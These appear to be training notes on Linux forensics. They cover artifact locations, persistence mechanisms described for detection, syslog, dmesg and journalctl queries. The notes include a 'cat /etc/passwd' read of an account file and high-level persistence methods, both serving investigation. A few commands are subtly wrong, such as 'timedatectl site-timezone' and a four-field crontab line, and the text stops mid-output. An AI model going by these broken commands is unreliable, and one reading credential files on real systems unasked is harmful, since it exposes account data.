

# Introduction to Linux Forensics

## Intro

### Linux Forensics Artifacts

Linux forensics artifacts refer to digital traces, logs, files, and system data left behind on a Linux OS that can be analyzed during investigations to reconstruct events, user activities, or security incidents. These artifacts help you to understand system usage, potential breaches, or malicious actions without providing step-by-step guides on eploitation. Common artifacts are found in logs, user directories, config files, and system processes.

Ubuntu, like most Linux distros, follows the Filesystem Hierarchy Standard, which defines a structured layout for directories and files to ensure consistency across Unix-like systems. This hierarchical tree starts at the root directory and organizes everything in a logical manner, with subdirectories serving specific purposes such as system binaries, user data, configurations, and logs. When conducting a forensic analysis of a Linux system, it's crucial to have a good understanding of the file and directory arrangement on the disk. This knowledge helps investigators efficiently locate important areas and evidence while disregarding less relevant sections.


#### /boot/ and /efi/

The `/boot/` and `/efi/` directories store essential files required for booting the system. This includes boot configuration files, kernel parameters, and more. Within these directories, you can also locate both the current and previous kernel versions, along with the initial ramfs, all of which can be subject to examination.

#### /etc/

The `/etc/` directory traditionally serves as the central repository for system-wide configuration files and related data. Most of these files are easily accessible in plaintext. Configuration files often come with associated directories denoted by a `.d` extension, allowing for the inclusion of additional configuration snippets. It's important to note that user-specific configuration files located in a user's `/home/` directory can take precedence over system-wide configurations in `/etc/`.

Here are some of the main forensics artifacts you might find in the `/etc/` directory:

|Purpose|Path|Description|
|---|---|---|
|User Accounts and Passwords|`/etc/passwd`|Contains user account information|
|User Accounts and Passwords|`/etc/shadow`|Stores password hashes (if shadow password system is used).|
|Group Information|`/etc/group`|Contains information about user groups.|
|System Configuration|`/etc/hostname`|Hostname of the system.|
|System Configuration|`/etc/hosts`|Local DNS resolution.|
|System Configuration|`/etc/issue`|Text displayed before login.|
|System Configuration|`/etc/issue.net`|Text displayed before remote login.|
|System Configuration|`/etc/os-release`|Information about the operating system.|
|Network Configuration|`/etc/network/`, `/etc/netplan/`, or `/etc/NetworkManager/`|Contains network configuration files|
|Network Configuration|`/etc/iptables/`, `/etc/iptables.rules`|Stores firewall rules (if used).|
|Service and Software Configuration|`/etc/services`|Lists network services and their associated ports.|
|Service and Software Configuration|`/etc/cron.d/`, `/etc/cron.daily/`|Configuration for scheduled tasks (cron jobs).|
|Service and Software Configuration|`/etc/sudoers`|Configuration for sudo access.|
|System Logs|`/etc/rsyslog.conf` or `/etc/syslog-ng/syslog-ng.conf`|Configuration for system logging.|
|System Logs|`/etc/logrotate.conf`|Log rotation configuration.|
|Security Configuration|`/etc/security/`|Configuration files related to system security.|
|Security Configuration|`/etc/ssh/sshd_config`|SSH server configuration.|
|Security Configuration|`/etc/pam.d/`|Pluggable Authentication Modules configuration.|
|Package Management|`/etc/apt/`|Configuration for the APT package manager (Debian/Ubuntu).|
|Package Management|`/etc/yum.conf` and `/etc/yum.repos.d/`|Configuration for the YUM package manager (RHEL/CentOS).|
|Hostname Resolution|`/etc/resolv.conf`|DNS resolver configuration.|
|Web Server Configuration|`/etc/apache2/`, `/etc/nginx/`|Standard web server configuration directories.|
|Database Configuration|`/etc/mysql/`|Configuration files for MySQL or MariaDB.|
|Database Configuration|`/etc/postgresql/`|Configuration for PostgreSQL.|
|Shell Configuration|`~/.bashrc`, `~/.bash_profile`, `~/.zshrc`, `/etc`|User-specific shell configuration files can be found in the user's home directory while global shell configurations in `/etc`.|
|User-Specific Configuration|`/etc/skel/`|Contains default files and directories for new user accounts.|

#### /tmp/

The `/tmp/` directory is designated for temporary storage of files. In certain Linux distros, the contents might be stored in the system's RAM using the tmpfs virtual memory file system. In forensic images, systems employing tmpfs to mount `/tmp/` will probably appear empty.

#### /run/

The `/run` directory is a tmpfs-mounted directory residing in RAM and will likely be empty on a forensic image. On a running system, this directory contains runtime information like PID and lock files, systemd runtime configuration, and more. There may be references to files and directories in `/run/` found in logs or configuration files.

#### /home/ and /root/

The `/home/` directory is the default location for user home directories. A user's home directory contains files the user created or downloaded, including configuration, cache, data, documents, media, desktop contents, and other files the user owns. The root user's home directory is typically `/root/` of the root filesystem. These home directories are of significant interest to forensic investigators because they provide information about a system's human users. The creation (_birth_) timestampt of a user's home directory my indicate when the user account was first added.

Here are the main artifacts you can find in the `/home/` directory:

|Purpose|Path|Description|
|---|---|---|
|User Documents and Files|`/home/<username>`|The user's personal files, including documents, images, videos, and other data, are typically stored in subdirectories.|
|Browsing Artifacts|`~/.mozilla/` and `~/.config/google-chrome/`|Directories of Firefox and Chrome web browsers user profiles. These directories may contain browsing history, bookmarks, and cache files.|
|Browsing Cache Files|`~/.cache`|Temporary local copies of web resources like images, scripts, and stylesheets that browsers store to speed up page loading on future visits.|
|Hidden Directories|`~/.<directory-name>` like `~/.config`, `~/.ssh`|Many configuration files and directories start with a dot and these often contain settings and preferences for various applications.|
|Desktop Environment Settings|`~/.config/`|User-specific settings for desktop environments (e.g., GNOME, KDE) can be found in this directory.|
|Shell History|`~/.bash_history`|The command history for a user's shell (e.g., Bash) is stored in this file or a similar location.|
|Email clients|`~/.thunderbird/`|Thunderbird email client data storage location.|
|Messaging application|`~/.config`|Messaging data may be stored in this directory or application-specific directories.|
|Desktop Environment Logs|`~/.local/share` or `~/.config`|Logs and usage data for the user's desktop environment can be found in these directories.|
|Access and Modification Timestamps|`/home/`|Timestamps associated with files and directories in the home directory can indicate when files were created, modified, or accessed. These timestamps are inherent to the file system.|
|Recently Used Files|`~/.local/share/recently-used.xbel`|Lists of recently accessed or similar files.|
|SSH and PGP Keys|`~/.ssh/`, `~/.gnupg/`|SSH and PGP keys can be found in these directories.|
|System Logs|`~/.local`|Some system logs and logs from installed applications may be stored in this directory or other hidden directories.|
|Downloaded Files|`/home/<username>/Downloads`|Users often download files to their directory.|
|Cloud Storage Sync|`~/.dropbox` or `~/.config/google-drive-ocamlfuse`|If a user uses cloud storage services like Dropbox or Google Drive, synchronization data and configuration settings can be found in these directories.|

#### /bin/, /sbin/, /usr/bin/, and /usr/sbin/

The standard locations for executable programs are `/bin/`, `/sbin/`, `/usr/bin/`, and `/usr/sbin/`. These directories were originally intended to separate groups of programs for users, administrators, the boot process, or for separately mounted filesystems. Today, `/bin/`and `/sbin/` are often symlinked to their corresponding directory in `/usr/`, and in some cases `/bin/`, `/sbin/`, and `/usr/sbin/` are symlinked to a single `/usr/bin` directory containing all programs.

#### /lib/ and /usr/lib/

The `/lib/` directory is generally symlinked to `/usr/lib/` on most Linux systems today. This includes shared library code, kernel modules, support for programming environments, and more. The `/lib` directory also contains the default configuration files for many software packages.

#### /usr/

The `/usr/` directory contains the bulk of the system's static read-only data. This includes binaries, libraries, documentation, and more. Most Linux System will symlink `/bin/`, `/sbin/`, and `/lib/` to their equivalents in the `/usr/` subdirectory. Files located in here that are not part of any installed package may be of forensic interest because they were added outside the normal software installation process. These might be manually installed files by a user with root access, or unauthorized files placed by a malicious actor.

#### /var/

The `/var/` directory contains changing system data and usually persistent across reboots. The subdirectories below `/var/` are especially interesting from a forensics perspective because they contain logs, cache, historical data, persistent temporary files, the mail and printing subsystems, and much more.

The main forensics artifacts of the `/var/` directory are:

|Purpose|Path|Description|
|---|---|---|
|System Logs|`/var/log/`|This directory contains system logs that record various system events and activities, including login attempts, service startups, and system errors. Common log files include `/var/log/auth.log`, `/var/log/syslog`, and `/var/log/messages`.|
|Package Management Logs|`/var/log/dpkg.log` or `/var/log/yum.log`|These logs track package installations, updates, and removals, which can provide information about software changes on the system.|
|Print Spooler Files|`/var/spool/cups/`|The Common Unix Printing System (CUPS) stores print job information in this directory, potentially revealing print job histories.|
|Mail Server Data|`/var/mail/` or `/var/spool/mail/`|Mailboxes and email-related artifacts are often stored here.|
|Database Files|`/var/lib/`|Databases like MySQL or PostgreSQL store their data files and logs.|
|Temporary Files|`/var/tmp/` and `/var/run/`|Temporary files and directories can contain artifacts such as unclean shutdown logs or remnants of executed processes.|
|Cron and Scheduled Tasks|`/var/spool/cron/crontabs/`|Information about scheduled tasks can be found in these files, which may include scripts and commands executed by cron jobs.|
|Web Server Logs|`/var/log/apache2/` or `/var/log/nginx/`|If a web server is installed, access and error logs can provide insights into web activity.|
|Printer Logs|`/var/log/cups/`|Printer-related logs.|
|DHCP and Network Logs|`/var/log/`|DHCP client and server logs.|
|Security and Authentication Data|`/var/log/secure` or `/var/log/auth.log`|These logs record authentication and security-related events, including login attempts and SSH connections.|
|Package Cache|`/var/cache/apt/archives/` or `/var/cache/yum/`|Package cache may contain downloaded package files, which could be of forensic interest.|
|System State Information|`/var/lib/misc/`|This directory may contain system state information, including files related to networking and hardware.|
|Session Information|`/var/run/utmp` and `/var/log/wtmp`|These files track user login and logout sessions.|
|Kernel Logs|`/var/log/kern.log` or `/var/log/dmesg`|Kernel-related logs.|
|Software Update Information|`/var/lib/update-notifier/package-data-downloads/`|This directory may contain data related to software updates.|

#### /dev/, /sys/, and /proc/

Linux has several other tmpfs and pseudo-filesystems that appear to contain files when the system is running, which include `/dev/`, `/sys/`, and `/proc/`. These directories provide representations of devices or kernel data structures but the contents don't actually exist on a normal filesystem. When examining a forensic image, these directories will likely be empty.

#### /media/

The `/media/` directory is inteded to hold dynamically created mount points for mounting external removable storage, such as CD-ROMs or USB drives. When examining a forensic image, this directory will likely be empty. References to `/media/` in logs, filesystem metadata, or other persistent data may provide information about user-attached external storage devices.

#### /opt/

The `/opt/` directory contains add-on packages, which typically are grouped by vendor name or package name. These packages may create a self-contained directory tree to organize their own files.

#### /lost+found/

A `/lost+found/` directory may exist on the root of every filesystem. If a filesystem repair is run and a file is found without a parent directory, that file is placed in the `/lost+found/` directory, where it can be recovered. Such files don't have their original names because the directory that contained the filename is unknown or missing.

> [!INFO]
> https://digitalforensics.ch/linux/
> https://github.com/orlikoski/CyLR
> https://github.com/ForensicArtifacts/artifacts/blob/main/artifacts/data/linux.yaml

### Linux Persistence

Linux persistence techniques refer to methods used by threats, such as malware or attackers, to maintain long-term access to a compromised Linux system. These mechanisms ensure that malicious code or access survives events like reboots, logouts, or system updates. In a forensics context, understanding these helps investigators identify artifacts, reconstruct incidents, and detect anomalies through logs, file modifications, and process behaviors. Techniques often align with the MITRE ATT&CK framework's Persistence tactic ([TA003](https://attack.mitre.org/tactics/TA0003/)), which defines ways adversaries retain footholds via access, actions, or configurations. Common categories include boot/logon scripts, scheduled tasks, service modifications, user account manipulations, and event-triggered executions.

Below is an outline of key techniques in a table format, drawing from established sources for high-level descriptions and detection approaches. Variations exist across distros, but many leverage standard components like systemd, cron, or shell configs.


It illustrates various mechanisms for maintaining access in Linux environments, particularly those using systemd as the init system. It begins at the central node representing the system init process and branches out into interconnected components covering system-wide and user-specific elements, such as generators, services, schedulers, daemons, accounts, authentication methods, and login shells, with additional nodes for specialized areas like web servers, rootkits, and infected software. This diagram is especially useful to hunt down such persistence mechanisms that are used in the wild.

#### User Manipulation

Users and groups configs are located here:

- `/etc/gshadow`
- `/etc/shadow`
- `/etc/passwd`
- `/etc/group`

```bash
linuxforensics@ubuntu:~$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/var/run/dbus:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
<SNIP>
```

Attackers might add new users, modify passwords, or elevate privileges by editing these files. For instance, a new entry in `/etc/passwd` could indicate a backdoor account. In forensics, compare timestamps and contents against baselines to spot anomalies.

#### Init Scripts

Init Scripts are configuration files that are used by Linux initialization systems to manage the startup, shutdown, and supervision of services and processes during the boot process. Those startup scripts are located in `/etc/init.d` and symbolic links in various runlevel directories like `/etc/rc3.d/` to start or stop services.

`Upstart` is used in some older Linux distros like Ubuntu 14.04 and its configuration files are located in `/etc/init/`.

#### Systemd

Systemd is the modern init system in most Linux distros. It manages services using unit files, usually located in `/lib/systemd/system/` or `/etc/systemd/system/`. You can use `systemctl` to enable and start services.

#### Cron Jobs

You can use cron jobs to schedule tasks at specific times or intervals. Entries in crontab files can be used to start scripts or commands.

For example, you can retrieve crontab data using `crontab -l`:

```bash
linuxforensics@ubuntu:~$ crontab -l

0 2 * * /bin/sh backup.sh
```

#### SSH Authorized Keys

The authorized_keys file, located at `~/.ssh/authorized_keys`, specifies the SSH keys that can be used to log in to the user account for which the file is configured.

#### Startup Applications

Many Linux dekstop environments, such as GNOME and KDE, allow users to configure startup applications through graphical settings. These are typically user-specific and can be configured through the desktop's settings.

#### /etc/rc.local

This is a traditional method for running custom scripts at boot time. The `/etc/rc.local` script is executed at the end of the system's initialization.

#### Shell Profile Files

You can add commands to shell profile files like `~/.bashrc`, `~/.bash_profile`, or `~/.profile`. These commands will be executed whenever a user logs in.

#### Autostart Directories

Some desktop environments use autostart directories to launch user-specific applications. For example, in GNOME, you can place .desktop files in `~/.config/autostart/`.

#### Service Management Tools

Tools like `chconfig` or `update-rc.d` can be used to manage services and their runlevel configurations.

#### User Session Startup Scripts

In some cases, you may want to execute scripts or programs at the start of a user session. You can achieve this by adding commands to the appropriate shell startup files, such as `~/.xprofile`, or by using the desktop environment's session manager.

## Forensics Arsenal

### Linux Logging

There are several notable mechanisms of logging in Linux:

- **Syslog**: Syslog is a standard logging protocol used to collect and send log messages within a network. Linux systems often use syslog to store log data in various log files, typically located in the `/var/log` directory. Common log files include `/var/log/messages`, `/var/log/auth.log`, and `/var/log/syslog`. These logs can provide valuable information about system and application activities, such as failed login attempts or service startups.
- **Systemd Journal**: Systemd, a common init system on many Linux distros, uses the systemd journal for logging. Journalctl is the command-line tool for querying and examining these logs. The journal provides structured and more comprehensive information compared to traditional flat text log files, including metadata like timestamps, process IDs, and severity levels.
- **Auditd**: The Linux Audit framework allows for detailed monitoring of system activities, including file access, process creation, and user authentication. Auditd is the user-space component, and it logs its data to `/var/log/audit/audit.log`. This is a powerful tool for tracking changes and potential security incidents, often used in compliance-heavy environments.
- **SysmonForLinux**: This is a tool that monitors and logs system activity, including processes, network connections and file system writes to what Sysmon for Windows does. SysfmonForLinux logs events into `/var/log/syslog` using XML format. It's particularly useful for endpoint detection and response (_EDR_) scenarios.

#### Syslog

The traditional logging system on Unix and Unix-like OS, such as Linux, is syslog. Syslog enables the separation of software that generates log messages from the systems that store, process, or forward those messages. In Linux, Syslog is implemented through daemons like syslogd, rsyslog, or syslog-ng, which handle the collection and management of logs. It's essentially a way for the system to record events, errors, and other important information in a structured manner. While traditional Syslog refers to the protocol defined in [RFC 5424](https://datatracker.ietf.org/doc/html/rfc5424), in Linux contexts, it often encompasses the entire logging ecosystem, including the daemon and configuration files. Note that modern Linux distros may integrate or replace parts of Syslog with tools like Systemd Journal, but Syslog remains widely used for compatibility and flexibility.

Syslog operates by having applications, services, or the kernel generate log messages that are sent to daemon like rsyslog or syslog-ng via local sockets, the logger command, or network protocols. These messages follow a standardized format including a priority code, a header with timestamp and hostname, and the actual content. The daemon processes incoming messages according to rules defined in configuration files, where selectors match facility.priority patterns to actions like writing to specific log files in `/var/log`, forwarding to another server for centralized logging, discarding, or piping to external programs. Logs are stored persistently, with tools like logrotate handling rotation and compression to manage disk space, ensuring efficient, categorized recording of system events for troubleshooting, monitoring, and auditing while supporting both local and networked environments.

Syslog is typically implemented as a daemon that listens for log messages from multiple sources, such as packets arriving over network sockets, local named pipes, or syslog library calls.

Here's a breakdown of key components:

|Component|Description|
|---|---|
|Log originator|Programs with syslog support kernel messages|
|Config files location|`/etc/rsyslogd.conf /etc/rsyslogd.d/conf /etc/syslog-ng/`|
|Daemon|`/usr/sbin/rsyslogd` (Service started by systemd)|
|Network log host|UDP port 514 (Configured with @host)|
|Local logfiles|`/var/log/*` (By facility and severity)|

For example, to view recent syslog entries on a Debian-based system:

```bash
d41y@htb[/htb]$ tail -n 10 /var/log/syslog

Feb 26 15:45:01 ubuntu CRON[12345]: (root) CMD (   cd / && run-parts --report /etc/cron.hourly)
Feb 26 15:46:12 ubuntu systemd[1]: Started Time & Date Service.
Feb 26 15:47:23 ubuntu kernel: [ 1234.567890] eth0: link up
Feb 26 15:48:34 ubuntu sshd[67890]: Accepted publickey for john from 10.10.16.14 port 22 ssh2
Feb 26 15:49:45 ubuntu sudo: john : TTY=pts/0 ; PWD=/home/john ; USER=root ; COMMAND=/usr/bin/apt update
Feb 26 15:50:56 ubuntu apt[23456]: Updating package lists...
Feb 26 15:51:07 ubuntu systemd-logind[789]: New session 1 of user john.
Feb 26 15:52:18 ubuntu NetworkManager[890]: <info>  [1234567890.123] dhcp4 (eth0): state changed unknown -> bound
Feb 26 15:53:29 ubuntu rsyslogd: [origin software="rsyslogd" swVersion="8.32.0" x-pid="7785" x-info="<https://www.rsyslog.com>"] rsyslogd was HUPed
Feb 26 15:54:40 ubuntu anacron[34567]: Job `cron.daily' terminated
```

This output can reveal patterns like unauthorized access or cron job executions. In forensics, you often use tools like grep to filter for specific events.

#### Extending to Additional Mechanisms

There are also some advanced or specialized logging options commonly encountered in Linux forensics:

1. **Kernel Ring Buffer (_dmesg_)**: This logs kernel messages, such as hardware detections or driver issues, stored in a circular buffer. Access it via the `dmesg` command or `/var/log/dmesg` on boot. Useful for investigating boot-time anomalies or device attachments.
2. **Application-Specific Logs**: Many services maintain their own logs, like Apache or MySQL. These provide granular details on web traffic or database queries, often rotated via logrotate in `/etc/logrotate.d/`.
3. **ELK Stack or Splunk Integration**: In enterprise setups, logs are forwarded to centralized systems like ES, Logstash, Kibana, or Splunk for aggregation and analysis. Check `/etc/rsyslog.d/` for forwarding configs to detect exfiltration or monitoring setups.

For instance, to check kernel logs, you can use the following command:

```bash
d41y@htb[/htb]$ dmesg | tail -n 5

[12345.678901] usb 1-1: new high-speed USB device number 2 using xhci_hcd
[12345.789012] usb 1-1: New USB device found, idVendor=0781, idProduct=5581, bcdDevice= 1.00
[12345.890123] usb 1-1: New USB device strings: Mfr=1, Product=2, SerialNumber=3
[12345.901234] usb 1-1: Product: Ultra
[12345.912345] usb-storage 1-1:1.0: USB Mass Storage device detected
```

When investigating logs, always preserve originals by copying to a forensic image. Use tools like `log2timeline` from Plaso to create super timelines correlating logs with file timestamps. Rotating and compressing logs can hide older events, so check archived files in `/var/logs/*.gz`.

### Systemd Journal

Systemd is a comprehensive suite of software tools that serve as the system and service manager for modern Linux distros, acting as the init system to bootstrap the user space and manage subsequent processes. For initializing and managing the Linux system after the kernel boots, systemd offers features like:

- Service Management
- Resource Control
- Hardware and Device Management
- Timers and Scheduling
- Logging Integration
- System State Management

It replaces older init systems like SysVinit or Upstart and is the default in distros such as Ubuntu, Fedora, Debian, and Arch Linux. It encompasses a wide range of components, including daemons for handling services, devices, mounts, timers, and logging, providing a unified framework for system initialization and management.

#### Overview

The shortcomings of the aging syslog system have resulted in a number of security and availability enhancements. Many of these enhancements have been added to existing syslog daemons as non-standard features and never gained widespread use among Linux distros. The systemd journal was developed from scratch as an alternative logging system with additional features missing from syslog, such as structured logging, forward-secure sealing, and efficient querying. Therefore, systemd-journal is the logging component of systemd, functioning as a system service daemon that collects, processes, and stores loggin data from the kernel, system services, applications, and other sources. It maintains structured, indexed journals in a binary format, which is more efficient than traditional text-based logs, and it conforms to standards like the Syslog protocol for message classification by priority and facility. The terms "journald" and "systemd-journald" are used interchangeably to describe this daemon.

Here's a breakdown of its key components:

|Component|escription|
|---|---|
|`Log originator`|All of the messages produced by the kernel, initrd, services, etc.|
|`Config files location`|`/etc/systemd/journald.conf`|
|`Daemon`|`systemd-journald` (Service managed by systemd)|
|`Local audit log`|`/var/log/journal/* /run/log/journal/*`|
|`Tool used to search`|`journalctl`|

One of the benefits of using a binary journal for logging is the ability to view log records in local time and in UTC if you want. By default, systemd will display results in local time.

```bash
linuxforensics@ubuntu:~$ sudo timedatectl site-timezone UTC
```

You can run the `journalctl` utility to show initial results:

```bash
linuxforensics@ubuntu:~$ journalctl

Oct 23 10:40:20 ubuntu kernel: Linux version 5.15.0-87-generic (buildd@bos03-amd64-016) (gcc (Ubuntu 9.4.0-1ubuntu1~20.0>
Oct 23 10:40:20 ubuntu kernel: Command line: BOOT_IMAGE=/boot/vmlinuz-5.15.0-87-generic root=UUID=4af306c1-ff64-48b1-944>
Oct 23 10:40:20 ubuntu kernel: KERNEL supported cpus:
Oct 23 10:40:20 ubuntu kernel:   Intel GenuineIntel
Oct 23 10:40:20 ubuntu kernel:   AMD AuthenticAMD
Oct 23 10:40:20 ubuntu kernel:   Hygon HygonGenuine
Oct 23 10:40:20 ubuntu kernel:   Centaur CentaurHauls
Oct 23 10:40:20 ubuntu kernel:   zhaoxin   Shanghai
Oct 23 10:40:20 ubuntu kernel: Disabled fast string operations
Oct 23 10:40:20 ubuntu kernel: BIOS-provided physical RAM map:
Oct 23 10:40:20 ubuntu kernel: BIOS-e820: [mem 0x0000000000000000-0x000000000009e7ff] usable
Oct 23 10:40:20 ubuntu kernel: BIOS-e820: [mem 0x000000000009e800-0x000000000009ffff] reserved
Oct 23 10:40:20 ubuntu kernel: BIOS-e820: [mem 0x00000000000dc000-0x00000000000fffff] reserved
Oct 23 10:40:20 ubuntu kernel: BIOS-e820: [mem 0x0000000000100000-0x000000007fedffff] usable
Oct 23 10:40:20 ubuntu kernel: BIOS-e820: [mem 0x000000007fee0000-0x000000007fefefff] ACPI data
Oct 23 10:40:20 ubuntu kernel: BIOS-e820: [mem 0x000000007feff000-0x000000007fefffff] ACPI NVS
Oct 23 10:40:20 ubuntu kernel: BIOS-e820: [mem 0x000000007ff00000-0x000000007fffffff] usable
Oct 23 10:40:20 ubuntu kernel: BIOS-e820: [mem 0x00000000f0000000-0x00000000f7ffffff] reserved
Oct 23 10:40:20 ubuntu kernel: BIOS-e820: [mem 0x00000000fec00000-0x00000000fec0ffff] reserved
Oct 23 10:40:20 ubuntu kernel: BIOS-e820: [mem 0x00000000fee00000-0x00000000fee00fff] reserved
Oct 23 10:40:20 ubuntu kernel: BIOS-e820: [mem 0x00000000fffe0000-0x00000000ffffffff] reserved
Oct 23 10:40:20 ubuntu kernel: NX (Execute Disable) protection: active
Oct 23 10:40:20 ubuntu kernel: SMBIOS 2.7 present.
<SNIP>
```

#### Journalctl

... is a command-line utility that is using systemd that allows you to query, view, and manage logs collected by the systemd-journald daemon, providing a centralized interface to access structured binary journal files containing detailed system events, kernel messages, service outputs, and metadata like timestamps, priorities, and process IDs.

|Command|Description|
|---|---|
|`journalctl --utc`|Display timestamps in UTC|
|`journalctl -b`|Display logs from current boot|
|`journalctl --list-boots`|List previous boots|
|`journalctl -b -1`|See journal from the previous boot (you can use boot ID instead -1)|
|`journalctl --utc -D /home/linuxforensics/Desktop/cases/scenario1/collection/uploads/auto/var/log/journal/894062f9af204645a289e8016977fe6c`|Use external journal folder to retrieve results from|
|`journalctl --utc --since "2023-10-15 18:00:00" --until "2023-10-15 19:00:00" -D /home/linuxforensics/Desktop/cases/scenario1/collection/uploads/auto/var/log/journal/894062f9af204645a289e8016977fe6c`|Use time windows for your logs (format: YYYY-MM-DD HH:MM:SS)|
|`journalctl --utc --since "2023-10-15 18:00:00" --until "2023-10-15 19:00:00" -D /home/linuxforensics/Desktop/cases/scenario1/collection/uploads/auto/var/log/journal/894062f9af204645a289e8016977fe6c/ -u httpd.service`|Filter results by unit (http.service as an example)|
|`journalctl --utc --since "2023-10-15 18:00:00" --until "2023-10-15 19:00:00" -D /home/linuxforensics/Desktop/cases/scenario1/collection/uploads/auto/var/log/journal/894062f9af204645a289e8016977fe6c/ -u httpd.service _PID=27804`|Filter results by Process ID (PID)|
|`journalctl /usr/bin/bash`|Filter results by executable|
|`journalctl -p err --no-pager`|Filter results by priority (You can use either the priority name or its corresponding numeric value) • 0: emerg • 1: alert • 2: crit • 3: err • 4: warning • 5: notice • 6: info • 7: debug|
|`journalctl -o json-pretty`|Output journalctl in json or any other formats: • cat: Displays only the message field itself. • export: A binary format suitable for transferring or backing up. • json: Standard JSON with one entry per line. • json-pretty: JSON formatted for better human-readability • json-sse: JSON formatted output wrapped to make add server-sent event compatible • short: The default syslog style output • short-iso: The default format augmented to show ISO 8601 wallclock timestamps. • short-monotonic: The default format with monotonic timestamps. • short-precise: The default format with microsecond precision • verbose: Shows every journal field available for the entry, including those usually hidden internally.|

You can sue `man systemd.journal-fields` to identify fields that can be used for search:

|Trusted Journal Fields|Description|
|---|---|
|`_PID`, `_UID`, `_GID`|The PID, UID, and group ID of the process the journal entry originates from, formatted as a decimal string. Note that entries obtained via "stdout" or "stderr" of forked processes will contain credentials valid for a parent process (that initiated the connection to systemd-journal).|
|`_COMM`, `_EXE`, `_CMDLINE`|The name, executable path, and command line of the process the journal entry originates from.|
|`_CAP_EFFECTIVE=`|The effective capabilities(7) of the process the journal entry originates from.|
|`_AUDIT_SESSION`, `_AUDIT_LOGINUID`|The session and login UID of the process the journal entry originates from, as maintained by the kernel audit subsystem.|
|`_SYSTEMD_CGROUP=`, `_SYSTEMD_SLICE=`, `_SYSTEMD_UNIT=`, `_SYSTEMD_USER_UNIT=`|The control group path in session, systemd hierarchy owner UID, the systemd slice unit name, the unit name in the systemd user manager (if any), the owner ID (if any) of the systemd user unit or systemd session (if any), and the owner UID of the systemd user.|
|`_SELINUX_CONTEXT=`|The SELinux security context (label) of the process the journal entry originates from.|

Usage example:

```bash
d41y@htb[/htb]$ journalctl --utc --since "2023-10-15 18:00:00" --until "2023-10-15 19:00:00" -D /home/linuxforensics/Desktop/cases/scenario1/collection/uploads/auto/var/log/journal/894062f9af204645a289e8016977fe6c/ -u httpd.service _PID=27804 -o json-pretty

{
        "__CURSOR" : "s=abcdef1234567890;i=1234;b=567890abcdef1234;m=123456789;t=5f1234567890a;x=bcdef1234567890",
        "__REALTIME_TIMESTAMP" : "1697383200000000",
        "__MONOTONIC_TIMESTAMP" : "123456789",
        "_BOOT_ID" : "567890abcdef1234",
        "PRIORITY" : "6",
        "_UID" : "0",
        "_GID" : "0",
        "_SYSTEMD_SLICE" : "system.slice",
        "_MACHINE_ID" : "894062f9af204645a289e8016977fe6c",
        "_HOSTNAME" : "ubuntu",
        "SYSLOG_FACILITY" : "3",
        "SYSLOG_IDENTIFIER" : "httpd",
        "MESSAGE" : "Server started successfully",
        "_TRANSPORT" : "journal",
        "_PID" : "27804",
        "_COMM" : "httpd",
        "_EXE" : "/usr/sbin/httpd",
        "_CMDLINE" : "/usr/sbin/httpd -DFOREGROUND",
        "_CAP_EFFECTIVE" : "0",
        "_SYSTEMD_CGROUP" : "/system.slice/httpd.service",
        "_SYSTEMD_UNIT" : "httpd.service",
